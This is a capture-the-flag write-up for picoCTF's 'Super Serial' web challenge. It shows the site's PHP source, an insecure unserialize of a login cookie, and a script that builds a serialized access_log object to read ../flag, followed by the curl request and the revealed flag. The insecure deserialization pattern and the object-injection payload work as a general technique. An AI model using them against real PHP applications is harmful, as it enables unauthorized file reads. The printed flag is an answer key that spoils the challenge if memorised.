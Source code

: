 # **_Super Serial_**
## Description
Try to recover the flag stored on this website `http://mercury.picoctf.net:14804/`
## Solution
Looked around the page but didn't find anything helpful until I went to `robots.txt`
```
User-agent: *
Disallow: /admin.phps
```
There is a filename `admin.phps`, lets take a look, well the server replies `Not Found`
However the filename reminds me of the `phps` extension, which shows the code of a `php` file
Notice `index.php` file used for the index page, change its extention to `phps`
> **_NOTE:_** If you can't find the `index.php` file, try to login then you will see the filename shown in the url

```html
<!--index.php-->
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
Notice that there are two php files, `cookie.php` and `authentication.php`
Lets take a look
```html
<!--cookie.php-->
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
```html
<!--authentication.php-->
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
Analyse how the authentication works for the website
>The webserver creates a `permissions` object with the input username and password, then it checks with the database to identify whether the user is a guest or admin; The webserver then serialize and encode the `permissions` object and set it as cookie, the authentication process grabs the cookie, decode and unserialse the cookie to get the `permissions` object, if the user is an admin, it will log the login date by creating an `access_log` object

Notice that in the progess, after decoding and unserializing the cookie, it runs `is_guest()` and `is_admin()` function of the `permissions` object, it raises an error and print the unserialized object if there is any problem
By reading the hint
>The flag is at ../flag

We know that we should read `../flag`, what we can do here is put an `access_log` object in the cookie, since the object doesn't have an `is_guest()` function, it raises an error and prints the object
Create a `access_log` object with the file `../flag`, serialze it and encode it, make sure you include the `access_log` class from `authentication.php`
```html
<!-- script.php -->
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

echo(urlencode(base64_encode(serialize(new access_log('../flag')))));
?>
```
Run the script to get the value
```console
❯ php script.php
<!-- script.php -->
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9%
```
This step is optional, I decoded the value just to make sure
```console
❯ echo "TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" | base64 -d
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
`curl` with the cookie `login` to get the flag
```console
❯ curl -s --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9;" http://mercury.picoctf.net:14804/authentication.php
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_261d1dcc}
```

